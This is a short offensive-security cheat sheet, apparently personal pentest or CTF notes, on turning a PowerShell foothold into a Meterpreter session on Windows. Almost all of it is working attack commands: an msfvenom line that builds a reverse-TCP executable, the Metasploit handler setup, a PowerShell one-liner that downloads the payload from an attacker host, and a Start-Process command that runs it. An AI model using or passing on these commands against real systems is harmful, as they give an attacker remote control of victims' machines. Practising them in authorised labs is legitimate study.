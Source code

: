 ## Powershell to Meterpreter Shell
- only if AV is disabled

- **Msfvenom**
  -  `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.4 LPORT=5555 -f exe > sh.exe`
  -  set up metasploit listener
  -  msfconsole
  -  search exploit/multi/handler
  -  use 6
  -  set payload windows/meterpreter/reverse_tcp
  -  set lport (match what is in payload)
  -  set lhost
  -  run

- **Powershell**
  - from current powershell
  - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.16.33:80/shell-name.exe', 'shell-name.exe')"`
    - Example:
      - `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.16.33:80/shell.exe', 'shell.exe')"`
  - dir to make sure in there
  - `Start-Process "shell-name.exe"`
